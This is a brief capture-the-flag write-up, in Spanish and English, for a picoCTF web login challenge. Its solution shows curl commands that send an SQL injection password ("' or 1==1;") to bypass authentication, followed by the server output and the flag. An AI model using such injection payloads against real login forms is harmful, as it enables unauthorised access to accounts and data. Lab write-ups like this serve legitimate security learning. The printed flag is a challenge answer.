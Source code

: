 ## Objetivo 

There is a website running at `https://jupiter.challenges.picoctf.org/problem/33850/` ([link](https://jupiter.challenges.picoctf.org/problem/33850/)) or http://jupiter.challenges.picoctf.org:33850. Do you think you can log us in? Try to see if you can login!
## Solución  

```bash 
┌──(kali㉿kali)-[~]
└─$ curl -s https://jupiter.challenges.picoctf.org/problem/33850/login.php -d "username-admin&password=password&debug=1"
<pre>username: 
password: password
SQL query: SELECT * FROM users WHERE name='' AND password='password'
</pre><h1>Login failed.</h1>                                                                                                                    
┌──(kali㉿kali)-[~]
└─$ curl -s https://jupiter.challenges.picoctf.org/problem/33850/login.php -d "username-admin&password=' or 1==1;&debug=1 "
<pre>username: 
password: ' or 1==1;
SQL query: SELECT * FROM users WHERE name='' AND password='' or 1==1;'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_f8adf3fb}</p>                                                                                                                    
┌──(kali㉿kali)-[~]

```

## Notas Adicionales 

El comando `curl -s` se utiliza en la línea de comandos para realizar solicitudes HTTP (y otros tipos de transferencias de datos) de manera silenciosa. Aquí, `-s` significa "silent" (silencioso) y suprime la barra de progreso y mensajes de error, mostrando solo la salida de la solicitud.

### Referencias